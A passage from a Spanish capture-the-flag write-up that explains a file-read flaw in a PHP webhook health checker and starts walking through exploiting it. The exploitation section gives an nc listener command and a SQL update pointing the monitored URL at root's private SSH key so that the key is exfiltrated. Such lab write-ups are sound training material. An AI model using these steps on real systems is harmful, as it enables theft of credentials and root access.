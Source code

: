 ```php
        // send
        $curl = curl_init($webhookUrl);
        curl_setopt($curl, CURLOPT_HEADER, false);
        curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($curl, CURLOPT_HTTPHEADER,
            array("Content-type: application/json"));
        curl_setopt($curl, CURLOPT_POST, true);
        curl_setopt($curl, CURLOPT_POSTFIELDS, $content);
        curl_exec($curl);
        curl_close($curl);

        return $json;

    }
}
```

La función comprueba si puede obtener el contenido de la URL especificada en `$monitoredUrl` utilizando la función `file_get_contents`. Si se puede obtener el contenido, la función agrega una clave `health` con el valor *up* al vector `$json`, y también agrega el contenido obtenido y el encabezado HTTP de respuesta al vector `$json`. Si no se puede obtener el contenido, la función agrega una clave `health` con el valor *down* al vector `$json`.

Existe un **problema de implementación** al leer el *monitoredUrl*. Se supone que ***@file_get_contents*** está leyendo el contenido de una web, pero, ¿y si en vez de una URL, igualamos *monitoredUrl* a un archivo del sistema? La variable *res* se igualará al contenido del archivo y posteriormente este contenido viajará en el *body*. Desde el exterior no podíamos, ya que teníamos que poner una URL que fuera válida. Pero ahora, podemos intentar modificar una fila de la tabla *tasks* para que apunte a un archivo del sistema y que nos lo envíe.

### Explotando webhooks

Para podernos convertir en *root*, lo más conveniente, pudiendo listar ficheros del sistema, es obtener la **clave privada SSH** de *root*. Esta se encuentra en la ruta */root/.ssh/id_rsa*. Así, luego nos podremos conectar por SSH.

Los pasos para obtenerla serán:

1 - Ponernos en escucha por un puerto, en mi caso, el **81**:

```bash
nc -nlvp 81
```

2 - Crear un *webhook*:


![imagen 11](Pasted image 20230104121136.png)


3 - Modificar el *webhook* desde la base de datos con el siguiente comando:

```sql
mysql> update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
```
